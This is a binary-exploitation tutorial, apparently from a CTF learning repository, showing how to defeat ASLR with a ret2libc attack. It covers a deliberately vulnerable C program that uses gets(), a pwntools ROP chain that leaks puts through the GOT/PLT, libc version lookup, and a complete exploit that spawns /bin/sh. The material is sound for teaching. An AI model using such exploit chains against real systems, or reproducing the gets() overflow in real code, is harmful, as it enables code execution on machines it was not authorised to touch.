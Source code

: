 # Ret2libc with ASLR

The code is the same as shellcode, but the executable is different.

```c
#include <stdio.h>
int main(){
    char name[100];
    fputs("Enter name: ", stdout);
    gets(name);
    fputs("Hello: ", stdout);
    puts(name);
    return 0;
}
```

Compile: `gcc chal.c -o chal -no-pie`

ASLR enabled.

```
➜  cat /proc/sys/kernel/randomize_va_space
2
```

If we run the attack from ret2libc, it now fails with a segfault. Why? Let's look at `ldd`

```
➜ ldd chal
linux-vdso.so.1 (0x00007fffaeb22000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f11f8079000)
/lib64/ld-linux-x86-64.so.2 (0x00007f11f8255000)
```

```
➜ ldd chal
linux-vdso.so.1 (0x00007ffdb4d03000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f12a259d000)
/lib64/ld-linux-x86-64.so.2 (0x00007f12a2779000)
```

The address of libc is different every time! This is due to ASLR, which randomizes the position of libc every time an executable is run. Fortunately, we can use the GOT and PLT to overcome this mitigation.

## Global Offset Table (GOT) and Procedure Linkage Table (PLT)

If the starting address of libc is randomized every time, how does the compiler know the address of libc functions to call? In fact, it doesn't. Instead, the compiler generates code that jumps to an entry in the PLT, which contains instructions to resolve the actual address of the function using a linker. Once the actual address is resolved, it is cached in the GOT. As PLT and GOT's locations are know ahead of time, we can use a ROP chain to read data from GOT, thus leaking the function address.

### Part 1: Leaking `puts` address

We choose the puts function as

1. It is used in the code (most important) (check `e.plt` and `e.got`)
2. It prints stuff (also very important)
3. It only requires 1 argument

Generally, puts is quite commonly used.

```python
from pwn import *

p = process("./chal")
e = ELF("./chal")
context.binary = e

padding = b"a"*120
puts_plt = e.plt.puts
puts_got = e.got.puts
rop = ROP(e)
# Print address of puts in got 
rop.call(puts_plt, (puts_got, ))
# We must execute all payloads in the same process otherwise libc address will be different
# Call main to execute second payload
rop.call(e.symbols.main)
p.sendline(padding+rop.chain())
# Discard `puts(name)`
p.recvline()
# Address is 8 bytes but last 2 bytes are null bytes, thus discarded by puts
puts_addr = p.recvline()[-7:-1] + b"\0\0"
# Ensure we got the offset right
assert (not puts_addr.startswith(b"a"))
print(hex(puts_addr))
```

```
> 0x7f33862125f0
```

### Part 2: Getting libc version

Before we move on with the attack, we must identify the libc version in use, because the positions of functions in libc varies between versions. We can use [the libc database](https://libc.blukat.me/) for this. This works because libc is always loaded at `0xXXXXXXXXXXXXX000`, even with ASLR, so that things align nicely in memory. Thus, the last 3 nibbles will be the same, even with ASLR. I wrote a [small library](./libc_search.py) to automate this process:

```python
fetch_libc_ver(puts_addr)
```

```
> ['libc6-amd64_2.31-9_i386', 'libc6_2.31-9_amd64']
```

Since we're on `x64`, the second one will probably work.

 ```python
 libc_version = 'libc6_2.31-9_amd64'
 libc = ELF(download_libc(libc_version),checksec=False)
 ```

### Part 3: Getting libc location

Once we've identified which version of libc we're using, we can find the location of puts in libc and compare it with the leaked puts position to find where libc is mounted.

```python
libc_puts_addr = libc.symbols._IO_puts
libc_addr = puts_addr - libc_puts_addr
libc.address = libc_addr
print("Libc address",hex(libc.address))
# Check that libc address is aligned
assert hex(libc.address).endswith("000"), "LIBC address not aligned"
```

### Part 4: Exploitation

After getting the libc address, the process is similar to ret2libc.

```python
rop2 = ROP(e)
sys = libc.symbols.system
sh = next(libc.search(b"/bin/sh"))
rop2.call(sys, (sh,))
p.sendline(padding+rop2.chain())
p.interactive()
```

## Full exploit code

```python
from pwn import *

p = process("./chal")
e = ELF("./chal")
context.binary = e

padding = b"a"*120
puts_plt = e.plt.puts
puts_got = e.got.puts
rop = ROP(e)
# Print address of puts in got 
rop.call(puts_plt, (puts_got, ))
# We must execute all payloads in the same process otherwise libc address will be different
# Call main to execute second payload
rop.call(e.symbols.main)
p.sendline(padding+rop.chain())
# Discard `puts(name)`
p.recvline()
# Address is 8 bytes but last 2 bytes are null bytes, thus discarded by puts
puts_addr = p.recvline()[-7:-1] + b"\0\0"
# Ensure we got the offset right
assert (not puts_addr.startswith(b"a"))
puts_addr = u64(puts_addr)
print(hex(puts_addr))

libc_version = 'libc6_2.31-9_amd64'
libc = ELF(download_libc(libc_version),checksec=False)

libc_puts_addr = libc.symbols._IO_puts
libc_addr = puts_addr - libc_puts_addr
libc.address = libc_addr
print("Libc address",hex(libc.address))
# Check that libc address is aligned
assert hex(libc.address).endswith("000"), "LIBC address not aligned"

rop2 = ROP(e)
sys = libc.symbols.system
sh = next(libc.search(b"/bin/sh"))
rop2.call(sys, (sh,))
p.sendline(padding+rop2.chain())
p.interactive()
```

